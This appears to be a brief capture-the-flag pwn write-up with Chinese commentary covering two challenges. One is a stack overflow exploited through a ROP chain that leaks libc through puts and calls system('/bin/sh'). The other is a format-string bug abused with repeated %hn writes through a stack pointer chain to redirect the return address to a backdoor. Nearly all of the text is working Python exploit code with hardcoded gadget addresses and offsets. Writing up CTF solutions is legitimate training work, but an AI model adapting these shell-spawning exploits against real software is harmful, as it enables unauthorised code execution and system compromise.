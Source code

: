 
### Stack

没开PIE和canary，溢出长度足够，泄露libc拿个/bin/sh然后直接system就行

```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

puts = 0x0000000000400520
prdi = 0x0000000000400843
sys = 0x0000000000400530
ret = 0x000000000040050E
payload = b"a" * 0x28 + p(prdi) + p(elf.got["puts"]) + p(puts) + p(0x00000000004006A8)
ps()
rl()
s(payload)
base = u(r(6).ljust(8, b"\0")) - 0x80970
success(hex(base))
binsh = base + 0x00000000001B3D88
payload = b"a" * 0x28 + p(prdi) + p(binsh) + p(ret) + p(sys)
s(payload)
ia()
```

### fmt
非栈上格式化字符串考点，给了无限次fmt次数，观察栈发现offset为13/16的地址指向offset为43的地址，于是先泄露栈基址，然后打连续指针改写返回地址为backdoor即可

```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

# 13 16 43
ru(b"Input your message: ")
sl(b"%6$p")
ru(b"0x")
stack = int(r(len("7ffd1cf35760")), 16) - 8
success(hex(stack))
sleep(1)
last_four_hex = stack & 0xFFFF
print(hex(last_four_hex)[2:])
num = int(hex(last_four_hex)[2:], 16)
ru(b"Input your message: ")
sl(b"%" + bytes(str(num).encode("utf-8")) + b"c%13$hn")
ru(b"Input your message: ")
sl(b"%" + bytes(str(0x128F).encode("utf-8")) + b"c%43$hn")
ru(b"Input your message: ")
sl(b"su str done!\0a")
ia()
```
